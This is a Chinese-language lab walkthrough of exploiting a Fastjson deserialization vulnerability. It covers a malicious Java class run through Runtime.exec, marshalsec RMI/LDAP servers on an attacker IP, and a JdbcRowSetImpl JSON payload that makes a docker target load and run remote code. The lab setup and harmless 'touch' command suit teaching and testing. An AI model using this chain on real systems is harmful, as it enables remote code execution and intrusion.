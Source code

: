 编辑恶意类代码，起名为evilclass.java

    
    
    import java.lang.Runtime;import java.lang.Process;public class evilclass{static {try {Runtime rt = Runtime.getRuntime();String[] commands = {"touch", "/tmp/test"};Process pc = rt.exec(commands);pc.waitFor();} catch (Exception e) {// do nothing}}}

使用javac编译evilclass.java文件生成evilclass.class

![]()

这里需要搭建RMI服务，首先下载marshalsec

    
    
    git clone https://github.com/mbechler/marshalsec.git

安装maven并编译marshalsec生成jar

    
    
    apt-get install mavenmvn clean package -DskipTests

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095644.png)

稍微等一下，可以看到已经创建成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095645.png)

我们进入到marshalsec的target目录里面进行查看已经生成了marshalsec-0.0.3.3-SNAPSHOT-
all.jar，然后使用marshalsec搭建一个RMI服务器，这里的ip就是你攻击机的ip，端口可以随意

这里也可以使用启动LDAP服务，效果是一样的

    
    
    lsjava -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.8/#evilclass" 9999java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.8/#evilclass" 9999

这里我使用RMI，可以看到请求成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095646.png)

bp在靶机的fastjson页面抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095647.png)

这里需要改的有三个地方，第一个地方需要把GET方法改成POST方法，第二个地方需要添加Content-
Type:application/json，第三个地方就是写入漏洞利用的poc

    
    
    {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.1.8:9999/evilclass","autoCommit":true}}

发包即可

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095648.png)

进入docker里查看发现已经创建了test文件
